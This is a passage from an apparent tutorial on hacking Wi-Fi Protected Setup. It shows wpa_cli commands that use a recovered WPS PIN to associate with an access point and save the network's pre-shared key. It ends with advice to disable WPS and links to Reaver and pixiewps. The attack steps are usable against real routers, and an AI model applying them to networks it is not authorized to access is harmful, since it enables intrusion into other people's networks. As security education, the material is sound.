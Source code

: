 ```bash
address=AA:BB:CC:XX:YY:ZZ
uuid=61234c34-abcd-5678-99be-c12343f51234
```
You should see `wpa_state=INACTIVE`.

Add the BSSID and PIN:

```bash
> wps_reg AA:BB:CC:XX:YY:ZZ 12345678
OK
<3>CTRL-EVENT-CONNECTED ret=-100 retry=1
```

You should see an **OK** message. Wait a few seconds as **wpa_supplicant** picks up the BSSID and tries to associate and perform key negotiation. You should see **CTRL-EVENT-CONNECTED**, which will indicate that the PIN was accepted and that you're now associated.

At this point, if you were to exit `wpa_cli`, you could run dhclient on wlan0 and would be offered an IP from the AP, assuming DHCPd were enabled.

Go ahead and type the command `save`, which should output another **OK**.  This will update the **wpa_supplicant.conf** file with a static configuration for this new network. Finally, you can verify the content of the configuration file :

```bash
$ cat /etc/wpa_supplicant.conf

ctrl_interface=/var/run/wpa_supplicant
ctrl_interface_group=0
update_config=1

network={
  ssid=[redacted]
  bssid="AA:BB:CC:XX:YY:ZZ"
  psk="mY_Sup3r.S3cur3#key"
  key_mgmt=WPA-PSK
  auth_alg=OPEN
}
```

If everything went well, you should have a line under this new network titled **psk** showing the network pre-shared key.

## Conclusion

The bottom line is that, while WPS was designed for ease of use, you have to remind that there is no such thing as simple security. The only way to be absolutely sure that someone can't gain access to your wireless network with the WPS hack is to make sure you use a router that doesn't support the protocol or allow you to disable it.

## Resources

* [Reaver WPS (original project)](https://github.com/gabrielrcouto/reaver-wps)
* [Reaver fork (by t6x)](https://github.com/t6x/reaver-wps-fork-t6x)
* [pixiewps](https://github.com/wiire/pixiewps)
* [Hands-on: hacking WiFi Protected Setup with Reaver](http://arstechnica.com/business/2012/01/hands-on-hacking-wifi-protected-setup-with-reaver/)
* [Offline bruteforce attack on WiFi Protected Setup](http://archive.hack.lu/2014/Hacklu2014_offline_bruteforce_attack_on_wps.pdf)
* [Bugfix: Reaver finds PIN but not passphrase](https://gitlab.com/billhibadb/reaver-wps/issues/203)
